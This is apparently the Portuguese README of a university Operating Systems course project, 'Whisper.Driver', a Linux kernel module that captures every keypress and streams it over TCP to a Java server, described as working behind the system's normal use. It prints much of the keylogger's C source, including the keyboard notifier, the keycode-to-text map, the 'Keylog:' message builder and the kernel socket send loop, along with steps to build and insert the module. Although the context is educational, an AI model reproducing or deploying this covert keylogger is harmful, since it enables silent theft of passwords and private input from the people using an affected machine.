

<p align="center">


</p>

## **Resumo.**

Trabalho da disciplina de Sistemas Operacionais I (SSC0640), lecionada pelo Docente Vanderlei Bonato, para o curso de Engenharia de Computação - USP São Carlos.

Whisper.Driver é um escaneador de teclado em kernel com comunicação TCP.

### **Autores.**

* **[Caio O. Godinho](https://github.com/caioogod-wr)**;
* **[Hugo H. Nakamura](https://github.com/ikuyorih9)**;
* **[Isaac S. Soares](https://github.com/ISS2718)**.


## **Tabela de conteúdos.**

   * [**Resumo.**](#resumo)
       * [**Autores.**](#autores)     
   * [**Tabela de conteúdos.**](#tabela-de-conte%C3%BAdos)
   * [**1. Composição do projeto.**](#1-composi%C3%A7%C3%A3o-do-projeto)
   * [**2. Pré-Requisitos**](#2-pr%C3%A9-requisitos)
   * [**3. Instalação dos Pré-requisitos.**](#3-instala%C3%A7%C3%A3o-dos-pr%C3%A9-requisitos)
      * [**3.1.Ubuntu**](#31-ubuntu) 
        * [**3.1.1. Java 8 JDK.**](#311-java-jdk)
        * [**3.1.2. Apache ant.**](#312-arquivos-headers-de-kernel)
      * [**3.2.Manjaro**](#32-manjaro)
        * [**3.2.1. Java 8 JDK.**](#321-java-jdk)
        * [**3.2.2. Apache ant.**](#322-arquivos-headers-de-kernel)
   * [**4. Guia de execução.**](#4-guia-de-execu%C3%A7%C3%A3o)
   * [**5. Resumo do driver.**](#5-resumo-do-driver)
       * [**5.1. Conexão do cliente com o servidor.**](#51-conex%C3%A3o-do-cliente-com-o-servidor)
       * [**5.2. Rotinas de envio de mensagem.**](#52-rotinas-de-envio-de-mensagem)
       * [**5.3. Listener das teclas.**](#53-listener-das-teclas)
           *  [**5.3.1. Mapa de Teclas.**](#531-mapa-de-teclas)
           *  [**5.3.2 Bloco Observador Teclado.**](#532-bloco-observador-teclado)
           *  [**5.3.3 Manipulador de Eventos do Teclado.**](#533-manipulador-de-eventos-do-teclado)
           *  [**5.3.4 Converte o Codigo da Tecla para String.**](#534-converte-o-codigo-da-tecla-para-string)
   * [**6. Tecnologias.**](#6-tecnologias)
   * [**7. Licensa.**](#7-licensa)

---

## **1. Composição do projeto.**

O projeto foi desenvolvido com o propósito de ser um driver de kernel capaz de escanear as teclas do teclado e enviar a um usuário externo conectado, funcionando por trás do uso principal do sistema.

Dessa forma, o usuário externo é um servidor, implementado em **user space** na linguagem Java, com interface JavaFX. O driver é um módulo kernel, com um listener de teclas e um socket de cliente, implementado em C no **kernel space**.

## **2. Pré-Requisitos.**

* Java JDK 11 (ou superior);
* Arquivos headers de kernel;

## **3. Instalação dos Pré-requisitos.**

### **3.1. Ubuntu.**

#### **3.1.1. Java JDK.**

Para executar o servidor em Java, é preciso instalá-lo. Primeiro, verifique se não há uma JDK 11 ou superior. Execute
```
$ java -version
```

Caso não haja, execute

```
$ sudo apt install default-jdk
```

Se o JDK foi instalado com êxito, então ao executar *$ java -version*, deve aparecer a última versão do JDK.

#### **3.1.2. Arquivos headers de kernel.**

Para saber se essas bibliotecas estão instaladas no seu sistema, execute

```
$ uname -r
$ apt search linux-headers-$(uname -r)
```

Caso você não tenha as bibliotecas, execute

```
$ sudo apt-get install build-essential linux-headers-`uname -r`
```

### **3.2. Manjaro.**

#### **3.2.1. Java JDK.**

Para executar o servidor em Java, é preciso instalá-lo. Primeiro, verifique se não há uma JDK 11 ou superior. Execute:

```
$ java -version
```

Caso não haja, execute:

```
$ sudo pacman -S jre-openjdk-headless jre-openjdk jdk-openjdk openjdk-doc openjdk-src
```

Se o JDK foi instalado com êxito, então ao executar *$ java -version*, deve aparecer a última versão do JDK.

#### **3.2.2. Arquivos headers de kernel.**

Para instalar é preiso estar com o sistema atualizado, para isso use:

```
$sudo pacman -Syu
```

**Se precisar reebote o sistema.**

Agora para instalar execute:

```
$ sudo pacman -S base-devel linux-headers
```

## **4. Guia de execução.**

1. Compile todos os arquivos executando:
```
$ make
```
2. Abra o servidor executando:

```
$ make start
```
3. Com o servidor aberto, é preciso pressionar **"Abrir servidor"**, para que ele comece a aceitar conexões. Nessa etapa, é importante verificar se o IP é **127.0.0.1** e a porta **8008**.

4. Agora deve-se inserir o módulo no kernel com:

```
$ make insert
```

5. Com o módulo no kernel, ele se conectará automaticamente e o servidor começará a mostrar as teclas digitadas pelo usuário. Para retirar o módulo do kernel, execute

```
$ make remove
```

## **5. Resumo do driver.**

### **5.1. Conexão do cliente com o servidor.**

A rotina de conexão com o servidor é a primeira rotina executada ao ínicio do módulo. Nela, define-se o IP e configura a conexão. Depois conecta-se o socket do cliente ao servidor. No trecho abaixo, há apenas a parte principal da rotina.

```
//Define o endereço de IP.
unsigned char ip[5] = {127,0,0,1,'\0'};

//Reserva memória no endereço 'endereco'.
memset(&endereco, 0, sizeof(endereco));

//Configura a conexão com o endereço IPV4, na porta 8008 no IP definido.
endereco.sin_family = AF_INET;
endereco.sin_port = htons(8008);
endereco.sin_addr.s_addr = htonl(criaEndereco(ip));

//Conecta o cliente ao servidor externo.
socket->ops->connect(socket, (struct sockaddr*)&endereco, sizeof(endereco), O_RDWR);

```

### **5.2. Rotinas de envio de mensagem.**

O envio de mensagem acontece byte-a-byte. Recebendo uma mensagem como parâmetro, a rotina de envio cria estruturas de mensagem, **struct msghdr**, e de buffer, **struct kvec**. Assim, envia-se um byte da mensagem até que o retorno da função **kernel_send** seja 0.

```
//Cria a struct do tipo msghdr (mensagem) e kvec (buffer).
struct msghdr msg;
struct kvec vec;

//Define o struct de mensagem.
msg.msg_name = 0;
msg.msg_namelen = 0;
msg.msg_control = NULL;
msg.msg_controllen = 0;
msg.msg_flags = flags;

//Enviar a mensagem ao servidor.
while(1){
    //Estrutura de buffer.
    vec.iov_len = left;
    vec.iov_base = (char *)mensagem + written;

    //Retorna o número de bytes enviados.
    len = kernel_sendmsg(localSocket, &msg, &vec, left, left);

    //Ao receber constantes do sistema, ignora e prossegue enviando.
    if(len == -ERESTARTSYS || !(flags & MSG_DONTWAIT) && len == -EAGAIN)
        continue;

    //Caso ainda haja bytes para enviar.
    if(len > 0){
        written += len;
        left -= len;
        if(left)
            continue;
    }
    break;
}
```

### **5.3. Listener das teclas.**

O Listener das teclas é divido em 4 partes, sendo elas o ```mapa_de_teclas```, o ```bloco_observador_teclado```, o ```manipulador_evento_teclado``` e a ```converte_codigo_tecla_para_string```.

#### **5.3.1. Mapa de Teclas.**

OAqui é definido um mapeamento de teclas chamado mapa_de_teclas, que associa códigos de teclas a caracteres correspondentes. Cada entrada no array bidimensional mapa_de_teclas possui duas strings: a primeira representa a tecla sem o Shift pressionado, e a segunda representa a tecla com o Shift pressionado. 

```
static const char *mapa_de_teclas[][2] = {
    {"\0", "\0"}, {"_ESC_", "_ESC_"}, {"1", "!"}, {"2", "@"},       // 0-3
    {"3", "#"}, {"4", "$"}, {"5", "%"}, {"6", "^"},                 // 4-7
    {"7", "&"}, {"8", "*"}, {"9", "("}, {"0", ")"},                 // 8-11
    {"-", "_"}, {"=", "+"}, {"_BACKSPACE_", "_BACKSPACE_"},         // 12-14
    {"_TAB_", "_TAB_"}, {"q", "Q"}, {"w", "W"}, {"e", "E"}, {"r", "R"},
    {"t", "T"}, {"y", "Y"}, {"u", "U"}, {"i", "I"},                 // 20-23
    {"o", "O"}, {"p", "P"}, {"[", "{"}, {"]", "}"},                 // 24-27
    {"\n", "\n"}, {"_LCTRL_", "_LCTRL_"}, {"a", "A"}, {"s", "S"},   // 28-31
    {"d", "D"}, {"f", "F"}, {"g", "G"}, {"h", "H"},                 // 32-35
    .
    .
    .
};
```
### **5.3.2 Bloco Observador Teclado.**

Aqui é definida uma estrutura notifier_block chamada bloco_observador_teclado, que possui um membro notifier_call apontando para a função manipulador_evento_teclado. Essa estrutura é usada para registrar o módulo como um observador dos eventos de teclado.

```
static struct notifier_block bloco_observador_teclado = {
    .notifier_call = manipulador_evento_teclado,
};
```

### **5.3.3 Manipulador de Eventos do Teclado.**

Essa função, manipulador_evento_teclado, é a função de retorno de chamada que é chamada sempre que ocorre um evento de teclado. Ela recebe informações sobre o evento, como o código da tecla e a ação (pressionar ou soltar a tecla), e registra as teclas pressionadas utilizando a função converte_codigo_tecla_para_string.

```
int manipulador_evento_teclado(struct notifier_block *bloco_notificacao, unsigned long codigo, void *_parametro){
    // Cria buffer para a conversao do codigo de tecla para string.
    char buffer_teclas[12] = {0};

    // Converte o parametro (void *) recebido prara (keyboard_notifier_param *). 
    struct keyboard_notifier_param *parametro = _parametro;
 
    if (!(parametro->down)) return NOTIFY_OK;
    
    // Converte o codigo da tecla na string equivalente e salva no buffer.
    converte_codigo_tecla_para_string(parametro->value, parametro->shift, buffer_teclas, 12);
    
    // Se a string for nula ele termina a rotina aqui.
    if (strlen(buffer_teclas) < 1) return NOTIFY_OK;
    
    // Cria uma string para enviar pelo socket.
    char enviar[32];
    memset(&enviar, 0, 32);

    // Monta a string no padrão "Keylog: <tecla>".
    strcat(enviar, "Keylog: ");
    strcat(enviar, buffer_teclas);
    strcat(enviar, "\n");

    // Envia a string pelo socket.
    enviarMensagem(socket, enviar, strlen(enviar), MSG_DONTWAIT);

    // Printa no log (local) a tecla precionada.
    printk(KERN_INFO "Keylog: %s", buffer_teclas);
 
    return NOTIFY_OK;
}
```

### **5.3.4 Converte o Codigo da Tecla para String.**

Esta função, converte_codigo_tecla_para_string, converte um código de tecla e uma máscara de Shift em uma sequência de caracteres correspondente. A sequência é armazenada no buffer fornecido como parâmetro.

```
void converte_codigo_tecla_para_string(int codigo_tecla, int mascara_shift, char *buf, unsigned int tam_buf){
    // Se a tecla esta dentro do intervalo de teclas mapeadas.
    if (codigo_tecla > KEY_RESERVED && codigo_tecla <= KEY_PAUSE)
    {
        // Se o shift estiver pressionado pega codigo na posicao 1 se nao pega na posicao 0.
        const char *string_tecla = (mascara_shift == 1)
                                ? mapa_de_teclas[codigo_tecla][1]
                                : mapa_de_teclas[codigo_tecla][0];
        // Copia o const char para o buffer como string.
        snprintf(buf, tam_buf, "%s", string_tecla);
    }
}
```

## **6. Tecnologias.**

As seguintes ferramentas foram usadas na construção do projeto:

- [C](https://devdocs.io/c/)
- [GCC](https://gcc.gnu.org/)
- [kernel-headers-linux](https://linuxhint.com/install-kernel-headers-linux/)
- [Java](https://jdk.java.net/)
- [JavaFX](https://www.oracle.com/java/technologies/install-javafx-sdk.html)
- [GNU make](https://www.gnu.org/software/make/manual/make.html)

## **7. Licensa.**

[MIT License](https://github.com/ISS2718/Whisper.Driver/blob/main/Makefile) © [Caio O. Godinho](https://github.com/caioogod-wr), [Hugo H. Nakamura](https://github.com/ikuyorih9), [Isaac Soares](https://github.com/ISS2718)
